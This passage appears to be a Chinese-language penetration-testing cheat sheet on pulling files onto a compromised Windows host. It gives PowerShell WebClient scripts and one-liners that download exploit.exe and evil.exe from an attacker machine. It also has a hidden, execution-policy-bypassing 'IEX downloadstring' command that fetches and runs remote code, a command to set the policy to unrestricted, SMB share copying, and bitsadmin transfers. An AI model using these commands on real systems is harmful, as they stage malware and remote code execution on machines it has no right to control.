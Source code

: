 **powershell**

同样,攻击端起 http 服务

```bash
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<kali-ip>/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行 powershell 命令,会生成 wget.ps1
目标机执行:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

---

或使用下面这种方法

```powershell
$p = New-Object System.Net.WebClient
$p.DownloadFile("https://img.alicdn.com/tps/TB1XLjqNVXXXXc4XVXXXXXXXXXX-170-64.png","D:\Temp\4.png")
```

```
powershell .\test.ps1
```

远程下载文件保存在本地
```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1/evil.txt','evil.exe')
```

有的时候 PowerShell 的执行权限会被关闭，需要使用如下的语句打开。
```
powershell set-executionpolicy unrestricted
```

远程执行命令
```
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.1/1/evil.txt'))"
```

**smb**
1. 在公网创建一个共享如：\\111.111.111.111\test$
2. 命令行下执行 net use \\111.111.111.111\test$ /u:test test
3. 最后上传文件到共享，命令行下拷贝：copy \\111.111.111.111\test$\test.exe c:\

**Bitsadmin**

bitsadmin 是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。
```
bitsadmin /transfer n http://192.168.1.1/1/evil.txt d:\test\1.txt
```
